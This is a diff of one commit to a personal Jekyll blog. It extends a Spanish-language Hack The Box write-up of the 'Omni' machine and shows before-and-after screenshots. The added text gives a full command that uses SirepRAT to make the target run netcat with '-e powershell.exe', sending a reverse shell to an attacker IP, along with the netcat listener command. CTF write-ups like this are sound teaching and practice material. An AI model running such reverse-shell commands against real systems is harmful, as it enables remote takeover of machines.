

Before and after one commit to fredisanmar/fredisanmar.github.io, a Jekyll site: the page built from _posts/2021-01-12-omni-HTB.md, in a window 1280 px wide and 900 px high, scrolled down 3932 px. Shown: the whole window, without its empty margins (24-943 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
writeup-omni

```diff
--- a/_posts/2021-01-12-omni-HTB.md
+++ b/_posts/2021-01-12-omni-HTB.md
@@ -118,4 +118,10 @@ Una vez levantado vamos donde teniamos el sirepRAT y vamos a ejecutar un comando
 
 ---
 Una vez descargado el binario vamos a llamarlo para que no devuelva una reverse shell de powershell en el puerto 1234.
-Vamos a levantar lo primero el listener con el comando *nc -lvp 1234*
+Vamos a levantar lo primero el listener con el comando *nc -lvp 1234* y con el comando *python2.7 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\temp\nc64.exe -e powershell.exe 10.10.14.16 1234"* llamaremos a netcat y no mandara al listener la reverse shell.
+
+---
+![call-nc](/assets/imagenes/2021-01-12-omni-HTB/call-nc.png)
+![nc-rev-shell](/assets/imagenes/2021-01-12-omni-HTB/shell-nc.png)
+
+---
```
Also changed, not shown: assets/imagenes/2021-01-12-omni-HTB/call-nc.png (added), assets/imagenes/2021-01-12-omni-HTB/shell-nc.png (added).
